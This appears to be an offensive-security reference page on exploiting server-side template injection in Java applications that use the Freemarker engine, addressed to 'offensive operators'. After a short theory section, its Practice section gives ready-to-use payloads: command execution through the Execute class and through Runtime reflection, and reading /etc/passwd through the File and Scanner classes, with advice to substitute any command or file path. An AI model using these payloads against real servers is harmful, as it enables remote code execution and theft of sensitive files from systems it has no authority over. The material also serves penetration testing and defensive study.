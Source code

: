 ```yaml
---
title: 'Freemarker Exploitation: SSTI Vulnerabilities in Java'
description: Explore Freemarker SSTI for command execution and data access.
keywords:
- Freemarker exploitation
- SSTI vulnerabilities
- Java template injection
- remote code execution
- sensitive file access
---
```


# Freemarker Exploitation

## Context

Freemarker exploitation focuses on leveraging Server-Side Template Injection (SSTI) vulnerabilities within Java applications using the Freemarker template engine. This technique enables offensive operators to execute arbitrary commands and access sensitive files within potentially vulnerable Java web applications. An understanding of general template engine operation, Java class structuring, and remote code execution fundamentals are assumed, along with a basic knowledge of identifying and working with SSTI vulnerabilities.

## Theory

### Freemarker Template Engine Internals

Freemarker is a Java-based template engine prominently used for rendering dynamic web content. Its primary functionality is to process templates containing both presentation logic and placeholders for dynamic content.

A core principle of Freemarker is its ability to access Java objects and invoke methods. This flexibility poses security risks if not properly isolated, allowing untrusted template inputs to instantiate and manipulate Java objects, which can lead to arbitrary code execution.

### Freemarker Injection Attack Surface

The Freemarker injection attack surface primarily involves injecting Freemarker expressions into the template context. This action triggers the execution of potentially malicious code. Developers often assume their template operations are safely sandboxed and isolated from sensitive Java classes, leading to exploitable vulnerabilities.

### Java Object Construction and Dangerous Classes

Freemarker facilitates the instantiation of Java classes using the built-in `?new` function, a feature attackers can misuse. Specifically, exposing `freemarker.template.utility.Execute` allows direct OS command execution. Similarly, utilizing `java.io.File` or `java.lang.Runtime` offers file read capabilities and command execution possibilities, respectively.

### Common Exploitation Primitives

Freemarker's `?new` function is exploited to initialize dangerous classes like `Execute` or `Runtime`. Following the initialization, attackers can invoke functions like `exec()` with parameters they control. Additionally, it's possible to leverage classes such as `java.io.File` and `java.util.Scanner` to read sensitive system files or any files accessible to the application.

## Practice

### Remote Command Execution via freemarker.template.utility.Execute

Execute arbitrary system commands on the server through the `freemarker.template.utility.Execute` class.

```freemarker
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }
```

This payload assigns the `Execute` class to a variable `ex` and runs the `id` command on the server. Replace `id` with any desired OS command.

### Command Execution via java.lang.Runtime

Use Java reflection to execute system commands via the `java.lang.Runtime` class.

```plaintext
${"".getClass().forName("java.lang.Runtime").getRuntime().exec("id")}
```

This payload independently finds the `Runtime` class and invokes the `exec()` function. Replace `id` with any command to execute.

### Sensitive File Read via java.io.File and java.util.Scanner

Access sensitive files using Freemarker to exploit Java's file operation classes.

```plaintext
<#assign file = "java.io.File"?new("/etc/passwd")>
<#assign scanner = "java.util.Scanner"?new(file)>
${scanner.useDelimiter("\\Z").next()}
```

This process allows reading the content of `/etc/passwd`, showcasing sensitive file access. Substitute `/etc/passwd` with any accessible file path to read its contents.

## Tools

- **Burp Suite**
- **curl**